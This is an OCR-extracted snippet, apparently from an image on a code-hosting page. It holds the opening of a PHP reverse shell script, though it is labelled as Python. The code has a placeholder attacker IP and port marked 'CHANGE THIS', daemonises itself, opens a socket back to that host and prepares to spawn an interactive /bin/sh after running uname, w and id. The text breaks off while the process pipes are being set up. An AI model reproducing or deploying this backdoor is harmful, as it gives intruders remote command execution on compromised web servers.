 ```python
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
```